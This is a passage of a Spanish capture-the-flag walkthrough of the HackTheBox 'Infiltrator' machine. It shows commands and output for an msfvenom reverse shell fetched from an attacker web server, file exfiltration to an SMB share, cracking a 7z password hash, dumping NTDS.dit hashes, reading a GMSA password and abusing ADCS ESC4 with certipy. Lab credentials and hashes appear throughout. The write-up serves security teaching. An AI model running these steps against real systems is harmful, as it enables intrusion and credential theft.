om_custom_status          om_notes_user             om_user_photo           
sqlite> select * from om_chatroom;
1|General_chat|20240219160702@conference.com|General_chat||20240219160702@conference.com|1|2024-02-20 01:07:02.909|0|0||0|0|1||
2|Chiefs_Marketing_chat|20240220014618@conference.com|Chiefs_Marketing_chat||20240220014618@conference.com|1|2024-02-20 10:46:18.858|0|0||0|0|1||
sqlite>
```

Ya disponemos de lo que parece ser la `roomkey` del **chat room** que queremos ver sus logs.

Por lo tanto, siguiendo el `API Helper` de la documentación del `Output Messenger` que nos encontramos, procederemos a ver los logs de las fechas recientes. En la conversación con `O.martinez`, la conversación que mantienen es el 20 de Febrero de 2024.

En este caso, buscaremos los logs entre las fechas del 19 al 20 de febrero utilizando la `roomkey`. Verificamos que hemos logrado al parecer leer los logs de este chat.

<figure><figcaption></figcaption></figure>

Revisando los logs del chat, verificamos lo que parece ser el mensaje que decía `O.martinez` en el cual compartía su contraseña en este grupo.

<figure><figcaption></figcaption></figure>

Procederemos a verificar si estas credenciales siguen siendo válidas a nivel de dominio. En este caso, al parecer, la usuaria debió cambiar sus credenciales por seguridad después de recibir varias alertas de SPAM.

```bash
❯ nxc smb dc01.infiltrator.htb -u 'O.martinez' -p 'm@rtinez@1996!' -k
SMB         dc01.infiltrator.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\O.martinez:m@rtinez@1996! KDC_ERR_PREAUTH_FAILED 
```

### Logging in O.martinez in Output Messenger

De casualidad, probamos de autenticarnos con estas credenciales al `Output Messenger`, para verificar si el usuario había cambiado también las credenciales en esta aplicación de mensajería.

<figure><figcaption></figcaption></figure>

Logramos acceder con el usuario `O.martinez`, además logramos visualizar el grupo `Chiefs_Marketing_chat` en el cual efectivamente, había compartido sus credenciales de acceso.

<figure><figcaption></figcaption></figure>

#### Running a malicious binary to get a Reverse Shell with a Calendar "Run application" function on Output Messenger

Revisando las funciones de la aplicación, nos encontramos que a través de crear un nuevo evento en el calendario, eramos capaces de ejecutar una aplicación.

<figure><figcaption></figcaption></figure>

Por lo tanto, lo que se probó a realizar es a crear un payload malicioso de una Reverse Shell. En este caso se utilizó `msfvenom` para crear un binario `.exe` malicioso que al ejecutarse nos proporcionaría una Reverse Shell. Compartiremos este binario malicioso a través de un servidor web.

```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.5 LPORT=444 -f exe -o reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: reverse.exe

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde otra terminal, nos pondremos en escucha para recibir la Reverse Shell.

```bash
❯ rlwrap -cAr nc -nlvp 444
listening on [any] 444 ...
```

Desde el equipo Windows (atacante) el cual hemos instalado el `Output Messenger`, procederemos a descargar el binario malicioso y lo ejecutaremos.

```powershell
PS C:\temp> wget 192.168.249.128/reverse.exe -o reverse.exe
PS C:\temp> ls

    Directory: C:\temp

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         1/18/2025  12:57 AM          28160 reverse.exe

PS C:\temp> .\reverse.exe
```

Vemos que funciona la `reverse.exe`, pero al ejecutarlo nosotros manualmente, el usuario que recibimos es el de nuestra máquina Windows (atacante).

```bash
❯ rlwrap -cAr nc -nlvp 444
listening on [any] 444 ...
connect to [10.10.16.5] from (UNKNOWN) [192.168.249.129] 53306
Microsoft Windows [Version 10.0.19045.5371]
(c) Microsoft Corporation. All rights reserved.

C:\temp>whoami
whoami
w10\gzzcoo

C:\temp>
```

Por lo tanto, el objetivo será crear un  nuevo evento para intentar y verificar si el usuario `O.martinez` es capaz de ejecutar el binario malicioso `reverse.exe` correctamente  y obtener una Shell con ese usuario.

<figure><figcaption></figcaption></figure>

Verificamos que se ha creado correctamente el evento. Deberemos de esperar a que el tiempo transcurra y verificar si funciona o no.&#x20;


_En nuestro caso, intentamos adelantar la hora de Windows manualmente, y por x motivos a veces funcionaba y otras no._


<figure><figcaption></figcaption></figure>

Después de diversas pruebas, logramos obtener una Shell como usuario `O.martinez@infiltrator.htb`.

```bash
❯ rlwrap -cAr nc -nlvp 444
listening on [any] 444 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.31] 53306
Microsoft Windows [Version 10.0.17763.6189]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
infiltrator\o.martinez
```

## Privilege Escalation

### Analyzing a Wireshark PCAP File

Revisamos en el directorio `AppData` del usuario actual si había algún tipo de información interesante. Comprobando en varios directorios, nos encontramos con un archivo de una captura de `Wireshark`.

```powershell
PS C:\Users\O.martinez\AppData\Roaming\Ouput Messenger\FAAA\Received Files\203301> ls

    Directory C:\Users\O.martinez\AppData\Roaming\Ouput Messenger\FAAA\Received Files\203301

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         2/23/2024   4:10 AM         292244 network_capture_2024.pcapng

PS C:\Users\O.martinez\AppData\Roaming\Ouput Messenger\FAAA\Received Files\203301>
```

Nos volveremos a montar un servidor SMB en nuestra Kali para compartirnos este archivo encontrado.

```bash
❯ smbserver.py smbFolder $(pwd) -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

Copiaremos el archivo mencionado al recurso compartido SMB que tenemos en nuestra Kali.


```powershell
PS C:\Users\O.martinez\AppData\Roaming\Ouput Messenger\FAAA\Received Files\203301> copy 292244 network_capture_2024.pcapng \\10.10.16.5\smbFolder\292244 network_capture_2024.pcapng
```


Abriremos la captura de Wireshark obtenida, verificaremos el siguiente resultado.

<figure><figcaption></figcaption></figure>

En el resultado obtenido, verificamos que hay una solicitud que se descarga a través del métoddo `GET`, un archivo llamado `BitLocker-backup.7z`. Lo que intentaremos es recuperar el archivo original. Para ello, en la solicitud donde se confirmó la descarga con un `200 OK`, haremos click derecho e ingresaremos a `Seguir < HTTP Stream`.

<figure><figcaption></figcaption></figure>

Indicaremos que muestra la `Conversación completa` y que el resultado se muestre en formato `Raw`, guardaremos el archivo en nuestro directorio de trabajo.

<figure><figcaption></figcaption></figure>

Verificaremos que disponemos del archivo `BitLocker-backup.raw`, procederemos a revisar el archivo a través de la herramienta de `hexedit`.

```bash
❯ ls -l
.rw-rw-r-- kali kali 205 KB Sat Jan 18 01:58:41 2025  BitLocker-backup.raw
.rwxr-xr-x kali kali 285 KB Sat Jan 18 01:49:49 2025  network_capture_2024.pcapng

❯ hexedit BitLocker-backup.raw
```

### Recovering original file obtained in Wireshark capture (hexedit)

El objetivo será recuperar el archivo original obtenido de la captura de Wireshark. Para ello, lo primero será localizar en que sección de la memoria empieza el archivo `7z`. Según ChatGPT, las cabeceras de archivos `7z` empiezan normalmente por `37 7A BC AF 27 IC`.&#x20;

Revisando el archivo en hexadecimal y situándonos en la cabecera de donde empieza el archivo, vemos que en la parte inferior nos muestra que el archivo empieza por los valores `0x3A5/0x33554`.

<figure><figcaption></figcaption></figure>

El siguiente paso será eliminar toda la parte superior del archivo `raw`. Para ello, crearemos dos variables de entorno que nos indique la posición exacta del byte y que a partir de ahí sobreescriba el archivo `.raw`.

Verificamos que hemos logrado obtener el archivo original sobreescribiendo el `raw` obtenido anteriormente.

```bash
❯ echo $((0x3A5))
933

❯ echo $((0x33554))
210260

❯ dd if=BitLocker-backup.raw of=BitLocker-backup.7z bs=1 skip=933 count=$((210260 - 933))
209327+0 records in
209327+0 records out
209327 bytes (209 kB, 204 KiB) copied, 0,608148 s, 344 kB/s

❯ file BitLocker-backup.7z
BitLocker-backup.7z: 7-zip archive data, version 0.4
```

Descromprimiremos el archivo `BitLocker-backup.7z` y vemos que requiere de credenciales para acceder al archivo, credenciales que no disponemos.

```bash
❯ 7z x BitLocker-backup.7z

7-Zip 24.09 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit locale=es_ES.UTF-8 Threads:32 OPEN_MAX:1024

Scanning the drive for archives:
1 file, 209327 bytes (205 KiB)

Extracting archive: BitLocker-backup.7z
--
Path = BitLocker-backup.7z
Type = 7z
Physical Size = 209327
Headers Size = 271
Method = LZMA2:20 7zAES
Solid = -
Blocks = 1

    
Enter password (will not be echoed)
```

A través de `7z2john` lo que realizamos es obtener el hash de la contraseña del archivo y almacenarlo en un archivo llamado `hash7z`.

```bash
❯ 7z2john BitLocker-backup.7z > hash7z
ATTENTION: the hashes might contain sensitive encrypted data. Be careful when sharing or posting these hashes
```

Al intentar crackear este hash obtenido con `john`, verificamos que hemos logrado crackear el hash y obtener su contraseña.

```bash
❯ john --wordlist:/usr/share/wordlists/rockyou.txt hash7z
Using default input encoding: UTF-8
Loaded 1 password hash (7z, 7-Zip archive encryption [SHA256 128/128 AVX 4x AES])
Cost 1 (iteration count) is 524288 for all loaded hashes
Cost 2 (padding size) is 8 for all loaded hashes
Cost 3 (compression type) is 2 for all loaded hashes
Cost 4 (data length) is 209048 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
zipper           (BitLocker-backup.7z)     
1g 0:00:02:50 DONE (2025-01-18 02:15) 0.005869g/s 32.49p/s 32.49c/s 32.49C/s cuteaq..pinkprincess
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Al volver a descomprimir el archivo `7z`, verificamos que nos ha descomprimido correctamente el archivo.

```bash
❯ 7z x BitLocker-backup.7z

7-Zip 24.09 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit locale=es_ES.UTF-8 Threads:32 OPEN_MAX:1024

Scanning the drive for archives:
1 file, 209327 bytes (205 KiB)

Extracting archive: BitLocker-backup.7z
--
Path = BitLocker-backup.7z
Type = 7z
Physical Size = 209327
Headers Size = 271
Method = LZMA2:20 7zAES
Solid = -
Blocks = 1

    
Enter password (will not be echoed):
Everything is Ok

Folders: 1
Files: 1
Size:       792371
Compressed: 209327
❯ ls -l
drwxrwxr-x kali kali 4.0 KB Mon Feb 19 19:11:00 2024  BitLocker-backup
```

### Decrypting BitLocker-encrypted disk via obtained recovery key and obtaining a backup of NTDS.dit

Revisando el resultado obtenido del archivo `7z`, verificamos que hay un archivo `HTML`. Procederemos a montar un servidor web con Python para revisar el contenido del archivo.

```bash
❯ ls
 'Microsoft account _ Clés de récupération BitLocker.html'
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Al acceder al servidor web de nuestro equipo, logramos verificar que se trata de una clave de recuperación de BitLocker.


_BitLocker es una característica de seguridad de Windows que proporciona cifrado para volúmenes completos, que aborda las amenazas de robo de datos o exposición de dispositivos perdidos, robados o retirados inapropiadamente._

Clave obtenida: _650540-413611-429792-307362-466070-397617-148445-087043_


<figure><figcaption></figcaption></figure>

Revisando nuevamente el archivo de Wireshark obtenido, verificamos que el usuario `O.martinez` realizó un cambio de credenciales y estas aparecen en texto plano.

<figure><figcaption></figcaption></figure>

Verificaremos si estas nuevas credenciales obtenidas nos permiten acceder al sistema, efectivamente hemos logrado autenticarnos correctamente.

```bash
❯ nxc smb dc01.infiltrator.htb -u 'O.martinez' -p 'M@rtinez_P@ssw0rd!' -k
SMB         dc01.infiltrator.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         dc01.infiltrator.htb 445    DC01             [+] infiltrator.htb\O.martinez:M@rtinez_P@ssw0rd! 
```

Revisamos en `BloodHound` de que el usuario `O.martinez@infiltrator.htb` dispone de privilegios `CanRDP` sobre el equipo `DC01`. Por lo cual podríamos conectarnos por RDP al Domain Controller.

<figure><figcaption></figcaption></figure>

Nos conectaremos mediante `xfreerdp3` al DC para tener acceso remoto por RDP y tener entorno gráfico.

```bash
❯ xfreerdp3 /u:O.martinez /p:'M@rtinez_P@ssw0rd!' /v:10.10.11.31 /dynamic-resolution
```

Verificamos que disponemos del disco `C:` y de una unidad cifrada con BitLocker `E:`.

<figure><figcaption></figcaption></figure>

Al intentar acceder a la unidad `E:`, verificamos que nos requiere de credenciales para acceder. Entre las opciones nos aparece la opción de `Enter recovery key` para introducir una clave de recuperación de BitLocker.

<figure><figcaption></figcaption></figure>

Ingresaremos la clave de recuperación de BitLocker que obtuvimos anteriormente para desbloquear la unidad cifrada.

<figure><figcaption></figcaption></figure>

Conseguimos tener acceso a la unidad `E:`, entre los directorios de la unidad, verificamos que en el directorio `E:\Windows Server 2012 R2 - Backups\Users\Administrator\Documents` disponía de un archivo de backup llamado `Backup_Credentials.7z`.

<figure><figcaption></figcaption></figure>

Deberemos de compartir este archivo a nuestro equipo local. Para ello, montaremos un servidor SMB que utilice las credenciales del usuario `O.martinez`.

```bash
❯ smbserver.py smbFolder $(pwd) -username 'O.martinez' -password 'M@rtinez_P@ssw0rd!' -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

Conectaremos esta unidad en el DC y copiaremos el archivo de Backup en nuestro recurso compartido.

<figure><figcaption></figcaption></figure>

Verificaremos que logramos tener el archivo de Backup, al proceder a descomprimir el archivo, verificamos que logramos disponer lo que parece ser de un Backup de los archivos `NTDS.dit`, `SYSTEM` y `SECURITY`.

```bash
❯ ls -l Backup_Credentials.7z
.rwxrwxr-x kali kali 2.0 MB Sun Feb 25 15:23:02 2024  Backup_Credentials.7z

❯ 7z x Backup_Credentials.7z

7-Zip 24.09 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit locale=es_ES.UTF-8 Threads:32 OPEN_MAX:1024

Scanning the drive for archives:
1 file, 2055137 bytes (2007 KiB)

Extracting archive: Backup_Credentials.7z
--
Path = Backup_Credentials.7z
Type = 7z
Physical Size = 2055137
Headers Size = 250
Method = LZMA2:24
Solid = +
Blocks = 1

Everything is Ok                  

Folders: 2
Files: 3
Size:       48513024
Compressed: 2055137

❯ ls -l
drwxrwxr-x kali kali 4.0 KB Sun Feb 25 15:12:32 2024  'Active Directory'
drwxrwxr-x kali kali 4.0 KB Sun Feb 25 15:12:34 2024  registry
.rwxrwxr-x kali kali 2.0 MB Sun Feb 25 15:23:02 2024  Backup_Credentials.7z

❯ tree
.
├── Active Directory
│   └── ntds.dit
├── Backup_Credentials.7z
└── registry
    ├── SECURITY
    └── SYSTEM

3 directories, 4 files
```

Exportaremos los hashes NTLM del archivo `NTDS.dit`, verificamos que logramos obtener los hashes de todos los usuarios del AD, entre ellos las del usuario `Administrator`.

```bash
❯ secretsdump.py -ntds Active\ Directory/ntds.dit -system registry/SYSTEM LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xd7e7d8797c1ccd58d95e4fb25cb7bdd4
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: d27644ab3070f72ec264fcb413d75299
[*] Reading and decrypting hashes from Active Directory/ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7bf62b9c45112ffdadb7b6b4b9299dd2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC$:1001:aad3b435b51404eeaad3b435b51404ee:fe4767309896203c581b9fc3c5e23b00:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:454fcbc37690c6e4628ab649e8e285a5:::
infiltrator.htb\winrm_svc:1104:aad3b435b51404eeaad3b435b51404ee:84287cd16341b91eb93a58456b73e30f:::
infiltrator.htb\lan_managment:1105:aad3b435b51404eeaad3b435b51404ee:e8ade553d9b0cb1769f429d897c92931:::
infiltrator.htb\M.harris:1106:aad3b435b51404eeaad3b435b51404ee:fc236589c448c620417b15597a3d3ca7:::
infiltrator.htb\D.anderson:1107:aad3b435b51404eeaad3b435b51404ee:627a2cb0adc7ba12ea11174941b3da88:::
infiltrator.htb\L.clark:1108:aad3b435b51404eeaad3b435b51404ee:627a2cb0adc7ba12ea11174941b3da88:::
infiltrator.htb\O.martinez:1109:aad3b435b51404eeaad3b435b51404ee:eb86d7bcb30c8eac1bdcae5061e2dff4:::
infiltrator.htb\A.walker:1110:aad3b435b51404eeaad3b435b51404ee:46389d8dfdfcf0cbe262a71f576e574b:::
infiltrator.htb\K.turner:1111:aad3b435b51404eeaad3b435b51404ee:48bcd1cdc870c6285376a990c2604531:::
infiltrator.htb\E.rodriguez:1112:aad3b435b51404eeaad3b435b51404ee:b1918c2ce6a62f4eee11c51b6e2e965a:::
```

Al intentar validar si podemos realizar _**Pass-The-Hash**_ con este hash NTLM del usuario `Administrator`, comprobamos que este hash ya no es válido y no podemos autenticarnos como él.

```bash
❯ nxc smb dc01.infiltrator.htb -u 'Administrator' -H '7bf62b9c45112ffdadb7b6b4b9299dd2'
SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\Administrator:7bf62b9c45112ffdadb7b6b4b9299dd2 STATUS_LOGON_FAILURE 
```

### Transforming a NTDS.dit file to SQLite file (ntdsdotsqlite)

Dado que no logramos extraer ningún tipo de información ni ninguna credencial válida en el `NTDS.dit`. Descubrimos la siguiente herramienta que nos transforma el `NTDS.dit` en un archivo `DB` para abrirlo con `sqlitebrowser`.

```bash
❯ ntdsdotsqlite Active\ Directory/ntds.dit --system registry/SYSTEM -o ntds.db
100%|██████████████████████████████████████████████| 3823/3823 [00:00<00:00, 5123.30it/s]

❯ ls -l ntds.db
.rw-rw-r-- kali kali 136 KB Sat Jan 18 02:38:45 2025  ntds.db

❯ sqlitebrowser ntds.db
```

Al revisar en los diferentes campos, logramos verificar que aparece lo que parecen ser unas credenciales para el usuario `lan_managment@infiltrator.htb`.

<figure><figcaption></figcaption></figure>

Validaremos si estas credenciales siguen siendo válidas para el usuario encontrado. Efectivamente estas credenciales nos sirven correctamente.

```bash
❯ nxc smb dc01.infiltrator.htb -u 'lan_managment' -p 'l@n_M@an!1331'
SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.31     445    DC01             [+] infiltrator.htb\lan_managment:l@n_M@an!1331 
```

### Abusing ReadGMSAPassword Rights

Al revisar nuevamente en `BloodHound`, verificamos que el usuario que disponemos, tiene privilegios de `ReadGMSAPassword` sobre el objeto `infiltrator_svc$@infiltrator.htb`.

<figure><figcaption></figcaption></figure>

A través de la herramienta de `bloodyAD`, procederemos a leer la contraseña del GMSA. Logramos obtener el hash NTLM del objeto en cuestión.

```bash
❯ bloodyAD --host dc01.infiltrator.htb -d infiltrator.htb -u 'lan_managment' -p 'l@n_M@an!1331' get object 'infiltrator_svc$' --attr msDS-ManagedPassword

distinguishedName: CN=infiltrator_svc,CN=Managed Service Accounts,DC=infiltrator,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:3ec423661d68dbda6c94ff25ff4d726b
msDS-ManagedPassword.B64ENCODED: z+LzYks13ZzAJQxIZgFbQCYsOroomLTBLYJhZKhD+gD+4zAwiKZe+vu8YrR44x20SQ/ytOmb2+1cq/BV6HeCl6IW50MjiLLLBEJh8xOH8ttUJ6SNjZ8iTq2lcG38EdSSQZE/iEpiIcmKa+QAAzPvwKrKYzU+IUsQYzw9mvrRpVTad46hZ7UZBV7o9LRDNUzwkVvO+pd69ou5Ut+l4ugcjp95iRe1of4vZE2Sd3UR3vdb9RQwfYz9O22pGD7FCXIuAXdeQssQNIqgyZJa+FyEVl5cVSJHm3Z7ZJ1AmIOmhtj3SgyAtVh0iYokhQKDRtxzwU3Y6lg9fijgfb41XkVtiw==
```

Validamos si podemos hacer un _**Pass-The-Hash**_ con este hash NTLM y el usuario, verificamos que logramos validar las credenciales correctamente.

```bash
❯ nxc smb dc01.infiltrator.htb -u 'infiltrator_svc$' -H '3ec423661d68dbda6c94ff25ff4d726b'
SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.31     445    DC01             [+] infiltrator.htb\infiltrator_svc$:3ec423661d68dbda6c94ff25ff4d726b
```

### ESC4 exploitation case with certipy-ad

Buscando vías potenciales de elevar nuestros privilegios, verificamos que este usuario, forma parte del grupo `Certificate Service DCOM Access`, lo cual nos replantea investigar si podemos abusar de los ADCS (Active Directory Certificate Services).

<figure><figcaption></figcaption></figure>

Con la herramienta de `certipy-ad` buscaremos si existe algún template que sea vulnerable. En este caso nos muestra que podemos efectuar el `ESC4`.

```bash
❯ certipy-ad find -u 'infiltrator_svc$'@infiltrator.htb -hashes 3ec423661d68dbda6c94ff25ff4d726b -dc-ip 10.10.11.31 -vulnerable -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'infiltrator-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'infiltrator-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'infiltrator-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'infiltrator-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : infiltrator-DC01-CA
    DNS Name                            : dc01.infiltrator.htb
    Certificate Subject                 : CN=infiltrator-DC01-CA, DC=infiltrator, DC=htb
    Certificate Serial Number           : 724BCC4E21EA6681495514E0FD8A5149
    Certificate Validity Start          : 2023-12-08 01:42:38+00:00
    Certificate Validity End            : 2124-08-04 18:55:57+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : INFILTRATOR.HTB\Administrators
      Access Rights
        ManageCertificates              : INFILTRATOR.HTB\Administrators
                                          INFILTRATOR.HTB\Domain Admins
                                          INFILTRATOR.HTB\Enterprise Admins
        ManageCa                        : INFILTRATOR.HTB\Administrators
                                          INFILTRATOR.HTB\Domain Admins
                                          INFILTRATOR.HTB\Enterprise Admins
        Enroll                          : INFILTRATOR.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : Infiltrator_Template
    Display Name                        : Infiltrator_Template
    Certificate Authorities             : infiltrator-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : PublishToDs
                                          PendAllRequests
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Smart Card Logon
                                          Server Authentication
                                          KDC Authentication
                                          Client Authentication
    Requires Manager Approval           : True
    Requires Key Archival               : False
    Authorized Signatures Required      : 1
    Validity Period                     : 99 years
    Renewal Period                      : 650430 hours
    Minimum RSA Key Length              : 2048
    Permissions
      Object Control Permissions
        Owner                           : INFILTRATOR.HTB\Local System
        Full Control Principals         : INFILTRATOR.HTB\Domain Admins
                                          INFILTRATOR.HTB\Enterprise Admins
                                          INFILTRATOR.HTB\Local System
        Write Owner Principals          : INFILTRATOR.HTB\infiltrator_svc
                                          INFILTRATOR.HTB\Domain Admins
                                          INFILTRATOR.HTB\Enterprise Admins
                                          INFILTRATOR.HTB\Local System
        Write Dacl Principals           : INFILTRATOR.HTB\infiltrator_svc
                                          INFILTRATOR.HTB\Domain Admins
                                          INFILTRATOR.HTB\Enterprise Admins
                                          INFILTRATOR.HTB\Local System
        Write Property Principals       : INFILTRATOR.HTB\infiltrator_svc
                                          INFILTRATOR.HTB\Domain Admins
                                          INFILTRATOR.HTB\Enterprise Admins
                                          INFILTRATOR.HTB\Local System
    [!] Vulnerabilities
      ESC4                              : 'INFILTRATOR.HTB\\infiltrator_svc' has dangerous permissions
```

Realizaremos la explotación del `ESC4` de los `ADCS` (Active Directory Certificate Services).



Configuraremos la template obtenida para que sea vulnerable.

```bash
❯ certipy-ad template -u 'infiltrator_svc$'@infiltrator.htb -hashes 3ec423661d68dbda6c94ff25ff4d726b -template Infiltrator_Template -save-old -dc-ip 10.10.11.31
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Saved old configuration for 'Infiltrator_Template' to 'Infiltrator_Template.json'
[*] Updating certificate template 'Infiltrator_Template'
[*] Successfully updated 'Infiltrator_Template'
```

Revisaremos nuevamente que la Template se ha modificado correctamente.

```bash
❯ certipy-ad find -u 'infiltrator_svc$'@infiltrator.htb -hashes 3ec423661d68dbda6c94ff25ff4d726b -dc-ip 10.10.11.31 -vulnerable -stdout

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'infiltrator-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'infiltrator-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'infiltrator-DC01-CA' via RRP
[*] Got CA configuration for 'infiltrator-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : infiltrator-DC01-CA
    DNS Name                            : dc01.infiltrator.htb
    Certificate Subject                 : CN=infiltrator-DC01-CA, DC=infiltrator, DC=htb
    Certificate Serial Number           : 724BCC4E21EA6681495514E0FD8A5149
    Certificate Validity Start          : 2023-12-08 01:42:38+00:00
    Certificate Validity End            : 2124-08-04 18:55:57+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : INFILTRATOR.HTB\Administrators
      Access Rights
        ManageCertificates              : INFILTRATOR.HTB\Administrators
                                          INFILTRATOR.HTB\Domain Admins
                                          INFILTRATOR.HTB\Enterprise Admins
        ManageCa                        : INFILTRATOR.HTB\Administrators
                                          INFILTRATOR.HTB\Domain Admins
                                          INFILTRATOR.HTB\Enterprise Admins
        Enroll                          : INFILTRATOR.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : Infiltrator_Template
    Display Name                        : Infiltrator_Template
    Certificate Authorities             : infiltrator-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : True
    Any Purpose                         : True
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : None
    Private Key Flag                    : ExportableKey
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 5 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Object Control Permissions
        Owner                           : INFILTRATOR.HTB\Local System
        Full Control Principals         : INFILTRATOR.HTB\Authenticated Users
        Write Owner Principals          : INFILTRATOR.HTB\Authenticated Users
        Write Dacl Principals           : INFILTRATOR.HTB\Authenticated Users
        Write Property Principals       : INFILTRATOR.HTB\Authenticated Users
    [!] Vulnerabilities
      ESC1                              : 'INFILTRATOR.HTB\\Authenticated Users' can enroll, enrollee supplies subject and template allows client authentication
      ESC2                              : 'INFILTRATOR.HTB\\Authenticated Users' can enroll and template can be used for any purpose
      ESC3                              : 'INFILTRATOR.HTB\\Authenticated Users' can enroll and template has Certificate Request Agent EKU set
      ESC4                              : 'INFILTRATOR.HTB\\Authenticated Users' has dangerous permissions

```

Abusaremos de la template vulnerable para que el usuario `Administrator` utilice la template vulnerable y se nos proporcione el certificado `administrator.pfx.`

Con este certificado, procederemos a utilizarlo para obtener el hash NTLM del usuario `Administrator` o obtener el ticket TGT `administrator.ccache`.

```bash
❯ certipy-ad req -u 'infiltrator_svc$'@infiltrator.htb -hashes 3ec423661d68dbda6c94ff25ff4d726b -ca infiltrator-DC01-CA -template Infiltrator_Template -upn administrator -dc-ip 10.10.11.31
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 11
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
❯ certipy-ad auth -pfx administrator.pfx -username Administrator -domain infiltrator.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@infiltrator.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@infiltrator.htb': aad3b435b51404eeaad3b435b51404ee:1356f502d2764368302ff0369b1121a1
```

Validaremos que el hash NTLM obtenido es correctamente válido para el usuario `Administrator`.

```bash
❯ nxc smb dc01.infiltrator.htb -u 'Administrator' -H '1356f502d2764368302ff0369b1121a1'
